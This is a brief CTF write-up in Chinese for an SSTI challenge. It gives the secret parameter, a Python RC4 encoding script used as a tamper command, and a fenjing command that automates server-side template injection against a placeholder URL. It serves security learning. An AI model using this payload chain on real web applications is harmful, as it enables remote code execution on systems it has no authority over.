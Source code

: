 - # 思路
	- 和[[CTF/WP/NISACTF 2022 is secret]]是同一题
	- {{embed ((64b57451-c669-40ab-98ed-c8de91a1fc2e))}}
- # 获取secret
	- 访问`/secret?secret=114514`
- # SSTI
	- 写一个脚本传给fenjing
		- ```python
		  import sys
		  from Crypto.Cipher import ARC4
		  from urllib.parse import quote, unquote
		  
		  
		  def urlencode(s):
		      if isinstance(s, bytes):
		          return quote("".join(chr(c) for c in s).encode())
		      return quote(s)
		  
		  def urldecode(s):
		      return unquote(s)
		  
		  def rc4_encrypt(key, plaintext):
		      cipher = ARC4.new(key)
		      encrypted_text = cipher.encrypt(plaintext.encode())
		      return urldecode(urlencode(encrypted_text))
		  
		  # 示例使用
		  key = b'HereIsTreasure'  # 密钥，以字节形式表示
		  plaintext = input()  # 明文
		  
		  encrypted_text = rc4_encrypt(key, plaintext)
		  print(encrypted_text, end = "")
		  
		  
		  ```
	- ```shell
	  python -m fenjing crack --url 'http://xxx/secret' --inputs secret --method GET --tamper-cmd 'python a.py'
	  ```
-